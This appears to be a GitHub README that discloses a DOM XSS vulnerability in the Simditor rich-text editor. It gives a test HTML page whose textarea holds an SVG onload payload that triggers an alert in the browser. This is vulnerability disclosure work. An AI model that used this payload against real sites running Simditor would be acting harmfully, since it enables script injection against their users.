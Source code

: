 # simditor
https://github.com/mycolorway/simditor
DOM XSS

## Download the Simditor source code.
```We just need this three js.
We just need this three js.
![image](https://github.com/hkglue/simditor_demo/blob/master/images/js.jpg)
```


##Edit a HTML FILE
```
<html>
<title>test</title>
<body>
<script type="text/javascript" src="./jquery.min.js"></script>
<script type="text/javascript" src="./module.js"></script>
<script type="text/javascript" src="./hotkeys.js"></script>
<script type="text/javascript" src="./simditor.js"></script>

<textarea id="editor"><svg><svg/onload=alert(1)></textarea>
<script>var editor = new Simditor({textarea: $('#editor')});</script>

</body>
</html>
```



##Open the HTML in any browser.
```
Thiis is in my chrome
![image](https://github.com/hkglue/simditor_demo/blob/master/images/exmaple.jpg)
THE XSS PAYLOAD IS EXECUTE !
```
